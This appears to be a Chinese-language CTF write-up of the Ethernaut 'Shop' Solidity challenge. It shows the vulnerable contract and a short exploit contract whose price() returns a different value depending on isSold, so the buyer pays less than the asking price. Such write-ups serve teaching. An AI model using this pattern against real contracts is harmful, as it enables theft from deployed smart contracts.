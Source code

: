 # 0x01 Task

**这篇是在solidity0.5版本下的wargame，0.4版本页面返回404**

```javascript
pragma solidity ^0.5.0;

interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}
```

Сan you get the item from the shop for less than the price asked?

## 0x02 need2know

修饰符`view`

> ##### View 函数
>
> 可以将函数声明为 `view` 类型，这种情况下要保证不修改状态。
>
> 下面的语句被认为是修改状态：
>
> 1. 修改状态变量。
> 2. [产生事件](file:///C:/Users/xzy/Desktop/Work/solidity-中文文档/index.html#events)。
> 3. 创建其它合约
> 4. 使用 `selfdestruct`。
> 5. 通过调用发送以太币。
> 6. 调用任何没有标记为 `view` 或者 `pure` 的函数。
> 7. 使用低级调用。
> 8. 使用包含特定操作码的内联汇编。

## 0x03 Solution

exp:

```javascript
pragma solidity ^0.5.0;

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price.gas(3000)() >= price && !isSold) {
      isSold = true;
      price = _buyer.price.gas(3000)();
    }
  }
}

contract Buyer{
    
    Shop target;
    
    function attack(address _addr) public{
        target = Shop(_addr);
        target.buy();
    }
    
    function price() external view returns (uint){
        if (Shop(msg.sender).isSold() == true){
            return 99;
        }
        return 101;
    }
}
```

使用`isSold`作为判断条件，返回不同的价格。